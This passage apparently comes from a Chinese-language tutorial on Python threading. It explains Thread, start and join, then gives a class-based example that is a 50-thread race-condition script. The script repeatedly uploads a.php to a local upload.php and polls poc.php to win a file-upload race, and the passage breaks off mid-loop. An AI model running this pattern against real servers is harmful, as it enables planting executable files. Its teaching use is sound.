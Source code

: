 ```python
    for t in threads:
        t.join()
```

-  threading.Thread创建线程，args是参数 
-  newthread.start()开始线程 
-  append加入到线程池中 
-  如果t.join()后有代码，表示等待所有线程结束再继续执行，如果没有代码，可以不加这个 
-  如果把join放在上面，即 
```python
 for i in range(nums):
        newthread = threading.Thread(target=thread1, args=())
        newthread.start()
        threads.append(newthread)
        print("start {}".format(i)) 
        newthread.join()
```

这就不会并行执行，等待当前线程执行完再执行，相当于单线程 

## Class实现多线程

[Python3 多线程 | 菜鸟教程 (runoob.com)](https://www.runoob.com/python3/python3-multithreading.html)

```python
import requests
import threading
import os

class RaceCondition(threading.Thread):
    def __init__(self):
        threading.Thread.__init__(self)

        self.url = 'http://127.0.0.1/poc.php'
        self.uploadUrl = 'http://127.0.0.1/upload.php'

    def _get(self):
        print('try to call uploaded file...')
        r = requests.get(self.url)
        if r.status_code == 200:
            print('[*] create file info.php success.')
            os._exit(0)

    def _upload(self):
        print('upload file...')
        file = {'myfile': open('a.php', 'r')}
        requests.post(self.uploadUrl, files=file)

    def run(self):
        while True:
            for i in range(5):
                self._get()

            for i in range(10):
                self._upload()
                self._get()

if __name__ == '__main__':
    threads = 50    

    for i in range(threads):
        t = RaceCondition()
        t.start()

    for i in range(threads):
```